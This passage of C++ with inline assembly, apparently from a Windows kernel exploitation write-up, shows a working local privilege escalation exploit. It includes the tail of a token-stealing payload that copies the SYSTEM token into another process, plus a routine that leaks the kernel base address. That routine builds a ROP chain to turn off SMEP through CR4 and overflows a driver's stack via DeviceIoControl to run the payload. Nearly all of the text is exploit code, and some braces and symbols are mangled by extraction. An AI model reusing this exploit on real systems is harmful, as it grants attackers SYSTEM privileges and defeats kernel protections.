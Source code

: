 ```

        mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
        mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
        ; with SYSTEM process nt!_EPROCESS.Token
        ; End of Token Stealing Stub

        popad; Restore registers state

        ; Kernel Recovery Stub
        xor eax, eax; Set NTSTATUS SUCCEESS
        add esp, 0x1c; Fix the stack
        pop ebp; Restore saved EBP
        ret 8; Return cleanly
    `}`
`}`
// Just Communicate with Driver
VOID TriggerStackOverFlow(DWORD dwCTLCode) `{`
    HANDLE hDev = GetDeviceHandle();
    if (!hDev)
        return;
    std::cout &lt;&lt; "We Get handle is :" &lt;&lt; std::hex &lt;&lt; hDev &lt;&lt; std::endl;

    DWORD dwSize = 0x824 + 0x4/*pop ecx*/+ 0x4 * 2/*padding for esp*/+ 0x4/*ecx real value*/ + 0x4/*mov cr4 */;
    DWORD dwRetSize = 0;
    PVOID ExpAddress = &amp;TokenStealingPayloadWin7;
    PVOID RetAddress = NULL;
    CHAR *Buffer = (CHAR*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwSize);

    // prepare ROP
    DWORD dwBaseAddress = LeakNtoskrlBaseAddr();
    std::cout &lt;&lt; "Leak Device Address " &lt;&lt; std::hex &lt;&lt; dwBaseAddress &lt;&lt; std::endl;

    // get ROP address
    DWORD dwSegBaseAddr = 0x00401000;
    DWORD dwSegOffset = 0x1000;
    DWORD dwRealPOPECX, dwBasePOPEAX = 0x0048BF1D;
    DWORD dwRealMOVCR4, dwBaseMOVCR4 = 0x0057DF86;
    dwRealMOVCR4 = dwBaseMOVCR4 - dwSegBaseAddr + dwBaseAddress + dwSegOffset;
    dwRealPOPECX = dwBasePOPEAX - dwSegBaseAddr + dwBaseAddress + dwSegOffset;

    std::cout &lt;&lt; "[+] pop ecx is " &lt;&lt; std::hex &lt;&lt; dwRealPOPECX &lt;&lt; std::endl;
    std::cout &lt;&lt; "[+`}` mov cr4 is " &lt;&lt; std::hex &lt;&lt; dwRealMOVCR4 &lt;&lt; std::endl;

    puts("[+] Begin to attack");
    getchar();
    // write it to attack buffer
    RtlFillMemory(Buffer, dwSize, 'A');
    RetAddress = &amp;Buffer[0x820];
    *(PULONG)RetAddress = (ULONG)dwRealPOPECX;
    RetAddress = &amp;Buffer[0x82c];
    *(PULONG)RetAddress = (ULONG)0x406e9;
    RetAddress = &amp;Buffer[0x830];
    *(PULONG)RetAddress = (ULONG)dwRealMOVCR4;
    RetAddress = &amp;Buffer[0x834];
    *(PULONG)RetAddress = (ULONG)ExpAddress;

    OutputDebugString(L"[+]  =========== Kernel Mode  =============== [+]");
    DeviceIoControl(hDev, dwCTLCode, Buffer, dwSize, NULL, 0, &amp;dwRetSize, NULL);
    OutputDebugString(L"[+]  =========== IOCTL Finish =============== [+]");
```